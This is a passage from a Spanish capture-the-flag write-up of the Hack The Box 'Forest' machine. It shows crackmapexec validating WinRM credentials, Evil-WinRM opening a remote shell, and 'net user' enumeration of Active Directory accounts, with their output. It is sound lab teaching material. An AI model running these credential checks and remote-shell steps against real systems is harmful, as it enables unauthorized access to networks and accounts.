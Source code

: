 Probemos con el **servicio WinRM**. Si nos muestra el **Pwned!**, sabremos que tenemos acceso a este servicio:
```bash
crackmapexec winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
SMB         10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```
Parece que podemos entrar a este servicio.

Comprobémoslo con la herramienta **Evil-WinRM**:
```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```
Genial, ya ganamos acceso a la máquina víctima. Busca la flag, debería estar en el escritorio de este usuario.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="Manual">Enumeración de AD Manual en Sesión Activa y Usando ldapdomaindump</h2>

Vamos a realizar una enumeración básica del sistema.

Primero, obtengamos los usuarios:
```batch
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net user

User accounts for \\

-------------------------------------------------------------------------------
$331000-VK4ADACQNUCA     Administrator            andy
DefaultAccount           Guest                    HealthMailbox0659cc1
HealthMailbox670628e     HealthMailbox6ded678     HealthMailbox7108a4e
HealthMailbox83d6781     HealthMailbox968e74d     HealthMailboxb01ac64
HealthMailboxc0a90c9     HealthMailboxc3d7722     HealthMailboxfc9daad
HealthMailboxfd87238     krbtgt                   lucinda
mark                     santi                    sebastien
SM_1b41c9286325456bb     SM_1ffab36a2f5f479cb     SM_2c8eef0a09b545acb
SM_681f53d4942840e18     SM_75a538d3025e4db9a     SM_7c96b981967141ebb
SM_9b69f1b9d2cc45549     SM_c75ee099d0a64c91b     SM_ca8c2ed5bdab4dc9b
svc-alfresco
The command completed with one or more errors.
```
Se pueden ver los mismos usuarios que ya habíamos obtenido antes.
